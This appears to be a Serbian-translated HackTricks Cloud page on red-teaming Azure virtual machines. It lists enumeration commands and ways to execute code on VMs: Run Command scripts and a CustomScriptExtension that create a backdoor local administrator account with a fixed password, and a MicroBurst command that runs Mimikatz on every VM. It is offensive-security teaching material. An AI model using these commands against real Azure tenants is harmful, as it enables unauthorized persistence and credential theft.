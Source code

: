 # Az - Virtuelne Mašine & Mreža

{% hint style="success" %}
Učite i vežbajte AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Učite i vežbajte GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podrška HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite hakerske trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}

## Osnovne informacije

[Iz dokumenata:](https://learn.microsoft.com/en-us/azure/virtual-machines/overview) Azure virtuelne mašine su jedan od nekoliko tipova [resursa za računanje na zahtev, skalabilnih](https://learn.microsoft.com/en-us/azure/architecture/guide/technology-choices/compute-decision-tree) koje Azure nudi. Obično birate virtuelnu mašinu kada vam je potrebna veća kontrola nad okruženjem za računanje nego što to nude druge opcije. Ovaj članak vam daje informacije o tome šta treba da razmotrite pre nego što kreirate virtuelnu mašinu, kako je kreirati i kako je upravljati.

## Azure Mrežne Informacije

Azure mreže sadrže **različite entitete i načine za konfiguraciju.** Možete pronaći kratke **opisne**, **primere** i **enumeracione** komande različitih Azure mrežnih entiteta u:

{% content-ref url="az-azure-network.md" %}
[az-azure-network.md](az-azure-network.md)
{% endcontent-ref %}

## Azure Bastion

**Azure Bastion** nudi sigurno, potpuno upravljano RDP (Remote Desktop Protocol) i SSH (Secure Shell) rešenje za pristup preko SSL-a putem Azure portala. Integrisan je unutar Azure Virtuelne Mreže, omogućavajući RDP i SSH povezivanje sa VM-ovima koristeći privatne IP adrese, izbegavajući potrebu za javnim IP adresama. Ovo ga čini sigurnijom, praktičnijom alternativom tradicionalnim metodama koje uključuju dodeljivanje javnih IP adresa i konfiguraciju NSG pravila za pristup VM-ovima. Programeri i IT osoblje mogu sigurno pristupiti VM-ovima sa Azure portala koristeći svoje web pretraživače, pojednostavljujući proces za razvojna i testna okruženja.

Da biste naveli sve Azure Bastion hostove u vašoj pretplati, možete koristiti sledeću komandu:

{% code overflow="wrap" %}
```bash
az network bastion list --query "[].{name:name, resourceGroup:resourceGrou, location:location}" -o table
```
{% endcode %}

## VM Enumeracija
```powershell
# Get readable VMs
Get-AzVM | fl
# Lis running VMs
Get-AzureRmVM -status | where {$_.PowerState -EQ "VM running"} | select ResourceGroupName,Name
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | fl *
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | select -ExpandProperty NetworkProfile

# Get iface and IP address
Get-AzNetworkInterface -Name <interface_name>
Get-AzPublicIpAddress -Name <iface_public_ip_id>

#Get installed extensions
Get-AzVMExtension -ResourceGroupName <res_group_name> -VMName <name>

Get-AzVM | select -ExpandProperty NetworkProfile # Get name of network connector of VM
Get-AzNetworkInterface -Name <name> # Get info of network connector (like IP)
```
## **Izvršavanje komandi u VM-u**

### **AAD prijava u VM-u**

Moguće je omogućiti pristup korisnicima koji su autentifikovani putem AzureAD. Na primer, pokušavajući da pristupite **linux VM-u**: `ssh username@azure-corp.com@1.1.1.1` (važno je **koristiti email** sa azurecorp koji je korišćen prilikom pokušaja prijave) mogli biste dobiti grešku kao: 

{% code overflow="wrap" %}
```
(username@azure-corp.com@1.1.1.1) This preview capability is not for production use. When you sign in, verify the name of the app on the sign-in screen is "Azure Linux VM Sign-in" and the IP address of the target VM is correct.

To sign in, use a web browser to open the page https://microsoft.com/devicelogin and enter the code DT4PNSTGR to authenticate. Press ENTER when ready.
```
{% endcode %}

Samo **pratite te instrukcije** idući na [https://microsoft.com/devicelogin](https://microsoft.com/devicelogin) i unoseći kod, koristite email i lozinku kao akreditive i moći ćete da se povežete putem SSH (ako taj korisnik ima dovoljno dozvola za to: `Virtual Machine Administrator Login` ili `Virtual Machine User Login` uloga).

### **Run Command**
```powershell
# The permission allowing this is Microsoft.Compute/virtualMachines/runCommand/action
Invoke-AzVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose
## Another way
Invoke-AzureRmVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose

# Content of the script
$passwd = ConvertTo-SecureString "Welcome2022!" -AsPlainText -Force
New-LocalUser -Name new_user -Password $passwd
Add-LocalGroupMember -Group Administrators -Member new_user
```

```powershell
# Try to run in every machine
Import-module MicroBurst.psm1
Invoke-AzureRmVMBulkCMD -Script Mimikatz.ps1 -Verbose -output Output.txt
```
### **Pokreni prilagođenu skriptnu ekstenziju**

Azure virtuelne mašine (VM) ekstenzije su **male aplikacije** koje pružaju konfiguraciju i automatizaciju **zadataka** nakon implementacije na **Azure VM-ovima**. Na primer, ako virtuelna mašina zahteva instalaciju softvera, antivirusnu zaštitu ili mogućnost pokretanja skripte unutar nje, možete koristiti VM ekstenziju.

Stoga, ako imate pristup za pisanje, možete izvršiti proizvoljan kod:
```powershell
# Microsoft.Compute/virtualMachines/extensions/write
Set-AzVMExtension -ResourceGroupName "Research" -ExtensionName "ExecCmd" -VMName "infradminsrv" -Location "Germany West Central" -Publisher Microsoft.Compute -ExtensionType CustomScriptExtension -TypeHandlerVersion 1.8 -SettingString '{"commandToExecute":"powershell net users new_user Welcome2022. /add /Y; net localgroup administrators new_user /add"}'
```
### DesiredConfigurationState (DSC)

DesiredConfigurationState (DSC) je PowerShell alat sličan Ansible-u, koji se koristi za postavljanje hosta putem koda. DSC se integriše sa Azure-om, omogućavajući upload specifičnih konfiguracionih fajlova. Ovi fajlovi moraju da se pridržavaju stroge sintakse. Značajno je da DSC ekstenzija u Azure-u može izvršavati komande iz fajlova koji ispunjavaju određene kriterijume formatiranja, čak i ako sintaksa nije ispravna prema DSC standardima, kao što je prikazano na priloženoj slici.

Izvršavanje ovih komandi olakšava [**`Publish-AzVMDscConfiguration`**](https://docs.microsoft.com/en-us/powershell/module/az.compute/publish-azvmdscconfiguration?view=azps-7.5.0) funkcija u Az PowerShell-u. Zahtevi uključuju **.PS1** fajl sa definisanom funkcijom, a fajl mora biti upakovan u **.zip** fajl. Iako sintaksa možda nije tačna za DSC, kod će se i dalje izvršiti. Međutim, ekstenzija će označiti status izvršenja kao "neuspeh," i nijedan izlaz iz komande neće biti vidljiv zbog toga što je status prepisan porukom o neuspehu.

### VM Application Definitions

VM Application Definitions omogućavaju ponovljivo implementiranje verzionisanih aplikacija na Azure VM. Ovaj resurs podržava implementaciju i ažuriranje aplikacija širom VM-ova. Da bi se ovo postavilo, potrebno je nekoliko koraka, uključujući komande kao što su **`New-AzGalleryApplication`** i **`New-AzGalleryApplicationVersion`** u Az PowerShell-u.

Izvršavanje aplikacija ili komandi putem ove metode uključuje **"VMAppExtension,"** koja se automatski instalira kada se aplikacija primeni na VM. Ekstenzija preuzima fajl sa specificiranog URI i imenuje ga tačno kao aplikaciju, bez ekstenzije. Da bi se fajl ispravno izvršio, polje "ManageActions" u REST API pozivu mora biti konfigurisano da preimenuje fajl sa odgovarajućom ekstenzijom. Postavljanje ove metode, kada se završi, će ličiti na strukturu prikazanu na priloženoj slici.

Međutim, ova metoda izvršenja je relativno spora, traje oko 3-4 minuta da izvrši aplikaciju ili komandu. Fajlovi povezani sa ovim procesom se čuvaju u specifičnim direktorijumima (`C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Downloads\` za kopiju aplikacije i `C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Status\` za status izvršenja).

Obe tehnike pružaju jedinstvene načine za izvršavanje komandi i implementaciju aplikacija u Azure okruženjima, svaka sa svojim skupom zahteva, koraka i razmatranja.

### Hybrid Worker Groups (HWGs) in Azure

[**Hybrid Worker Groups (HWGs)**](https://docs.microsoft.com/en-us/azure/automation/automation-hybrid-runbook-worker) su funkcija u Azure-u koja omogućava izvršavanje Runbook-a, konfiguranih u Automation Account-u, na Azure Virtual Machine (VM) koja je deo određenog HWG-a. Ovo izvršavanje olakšava ekstenzija instalirana na VM-u, koja implementira Runbook kod na VM. Značajan aspekt ovog procesa je da stvarne akreditive nisu faktor u izvršenju jer kod radi sa povišenim privilegijama, specifično kao **SYSTEM** ili root, kao što je ilustrovano na priloženoj slici.

Ključna informacija za one koji koriste Windows 10 VM-ove je potreba da se specificira verzija PowerShell-a za Runbook. Trebalo bi da bude postavljena da se izvršava kao PowerShell Verzija 5.1 umesto 7.1. Ovaj zahtev proističe iz činjenice da PowerShell 7.1 nije instaliran po default-u na ovim VM-ovima, što dovodi do neuspeha u izvršenju skripte ako je verzija 7.1 specificirana.

Ova funkcija Azure-a nudi robustan metod za automatizaciju i upravljanje zadacima širom hibridnih okruženja, omogućavajući centralizovano upravljanje i izvršenje zadataka na Azure VM-ovima.

## References

* [https://learn.microsoft.com/en-us/azure/virtual-machines/overview](https://learn.microsoft.com/en-us/azure/virtual-machines/overview)
* [https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/](https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
